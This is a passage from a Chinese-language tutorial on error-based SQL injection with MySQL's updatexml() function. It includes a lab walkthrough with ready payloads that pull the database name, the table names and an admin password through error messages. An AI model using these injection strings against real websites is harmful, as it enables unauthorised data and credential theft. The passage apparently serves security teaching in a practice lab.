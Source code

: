 ## updatexml报错注入

已知在sql语句中有种函数是updatexml(xml_target, xpath_expr, new_xml)，这个函数原本的作用是用来更新选定XML片段的内容，但是原本的作用已经不重要了，我们发现只要xpath_expr不是一个目录路径，这个代码就会报错
![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675151239027-f2538c89-2866-4040-ab80-7dc3769d6b26.png)
通过上面的测试，我们发现这个报错信息中包含了我们写入的查询语句，也就是如果发现网站存在sql报错的地方，就可以执行任意的查询语句

```sql
select updatexml('1',concat('~',(你要查询的语句)),'1');
```

在配合上我们前面学来的从information_schema中的一系列查询，就可以把敏感信息从数据库中查询出来

## 报错注入靶场实战

构造工具语句，获取数据库名信息

```sql
1'and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+
```

![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675151617643-ade906c7-a411-4b0c-aac2-25d24cc42f81.png)

但是采用updatexml报错函数只能显示32位长度的内容，如果获取的内容超过32字符就要采用字符串截取方法。
updatexml()最多显示32位长度的错误字符，如果显示内容过长我们可以使用substr()来截取。

```sql
# substr(password,10)表示从第10位开始截取后面的内容
' and updatexml('1',concat('~',(
select substr(password,10) from admin limit 0,1
)),'1')#
```

使用下面语句查询表名

```sql
1'and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema= database()),0x7e),1) --+
```
